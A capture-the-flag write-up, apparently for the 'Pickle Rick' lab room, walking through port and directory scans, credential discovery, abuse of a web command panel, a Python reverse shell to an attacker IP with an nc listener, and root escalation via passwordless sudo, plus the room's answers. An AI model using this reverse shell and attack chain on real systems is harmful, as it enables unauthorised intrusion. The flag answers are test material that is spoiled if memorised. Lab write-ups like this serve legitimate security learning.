 # Pickle Rick

```json
export ip=10.10.58.138
```

```
first step is to always run the nmap scans

nmap -p 0-9999 -oN scans/nmap_high_ports $ip
nmap -sC -sV -oN scans/nmap_normal $ip
```
```
looks like we have apache [80](webserver), ftp [21] and ssh [2222]running
```
```
we can see theres a robots.txt file which contains
"Wubbalubbadubdub" possibly a password?
```
```
always run gobuster after seeing apache is running and open

gobuster dir -u http://$ip -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt +x php,sh,txt,cgi,html,js,css,py
```

```
if we view the page source of the webserver we can see rick has left a username for us
"Note to self, remember username!

    Username: R1ckRul3s"
```
```
if we go to /login.php we can try the username and password we possibly found
great it worked and it looks like we can execute commands from here
```
```
if we run ls we get 
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt

and it seems using cat is disabled
we need to find a way around that
lets try using "nl Sup3rS3cretPickl3Ingred.txt"
"mr. meeseek hair"
perfect
```
# 1. What is the first ingredient Rick needs?
```
answer: mr. meeseek hair 
```
```
lets see what clue.txt is
"Look around the file system for the other ingredient."
it looks like we can only run one liners however using the ; sign we can run multiple commands in one line

if we view the page source it looks like we have a base64 encoded string lets decode it
nothing useful there either
```
```
suppose we should try getting a shell however netcat is disabled
python on the other hand is working so lets get a python reverse shell
```
```json
export RHOST="YOUR_IP";export RPORT=YOUR_PORT;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'

nc -lvnp YOUR_PORT (listener)
```
```
we now have a shell lets go look around
if we go to /home/rick and cat "second ingredient"
we find our second ingredient 
"1 jerry tear"
```
# 2. What is the second ingredient Rick needs?
```
answer: 1 jerry tear
```
```
im going to assume the last ingredient is probably in /root or needs root access so lets upgrade our shell so we can privesc to root
```
```json
python3 -c 'import pty; pty.spawn("/bin/bash")'
^Z 
stty raw -echo
fg
```
always the first thing to do when your looking to privesc is to run sudo -l
in this cane we can sudo without a password on everything
so lets try running sudo "/bin/bash"
```
```
great we are now root! we can see that with id, whoami etc
so lets look around for the final ingredient
```
```
the final ingredient is /root/3rd.txt which we can use cat or nl to see what it is
1 fleeb juice
```
```
# 3. What is the third ingredient Rick needs?
```
answer: 1 fleeb juice
```

```json
Congratulations on completeing the room !
```